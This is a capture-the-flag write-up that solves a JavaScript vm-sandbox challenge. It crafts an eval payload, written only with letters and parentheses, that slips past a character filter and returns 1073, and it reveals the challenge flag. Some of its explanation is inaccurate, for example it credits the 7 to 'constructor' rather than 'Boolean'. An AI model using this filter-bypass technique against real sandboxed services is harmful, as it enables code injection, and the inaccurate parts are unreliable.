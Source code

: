 # Welcome to FPTU Ethical Hackers Kingdom
![](./media/1.png)

**Category:** Misc

---

## 1. Analyze

Here's the front page of the challenge.
![](./media/2.png)
For this challenge, It took a while for me to get to the source code.
![](./media/3.png)

Following the hint, we can see the source code.

![](./media/4.png)

These lines of code instantly caught my eyes:
```js
const secret = req.query.secret + '';
if (secret && secret.length < 190 && !/[^A-Za-z).(]/.test(secret)) {
try {
    const key = virtual_machine.runInNewContext(secret, {}, { timeout: 100 });
    if (key === 1073) {
    output = Buffer.from(process.env.FLAG).toString('base64');
    } else {
    output = 'https://i.imgur.com/OQFcXZD.jpg';
    }
} catch (e) {
    output = Buffer.from('https://youtu.be/HRwVb2xrNDw').toString('base64');
}
} else {
    output = Buffer.from('https://youtu.be/HRwVb2xrNDw').toString('base64');
}
```
Our goal is to inject javascript code which can bypass the filters and return a number `1073`

## 2. Payload crafting
The idea is to concatenate `"1", "0", "7", "3"`.

For `1`, we use `Number(true)`.

For `0`, we use `Number(false)`.

For `7`, we use `true.constructor.name.length` since the length of `"constructor"` is `7`.

For `3`, we use `(typeof(this)).big.name.length)` since the length of `"big"` is `3`.

Sum it all, we got the final payload.
```js
eval((typeof(this)).constructor(Number(true)).concat(Number(false)).concat(true.constructor.name.length).concat((typeof(this)).big.name.length))
```

Submit it and here's what we got the flag in `BASE64`: `RlBUVUhhY2tpbmd7YmFuX3F1YV9odSxiYW5fZGFfYmlfQW50b2luZV9uaG90X3Zhb19qc19qYWlsfQ==`

Decode it and get the Flag: `FPTUHacking{ban_qua_hu,ban_da_bi_Antoine_nhot_vao_js_jail}`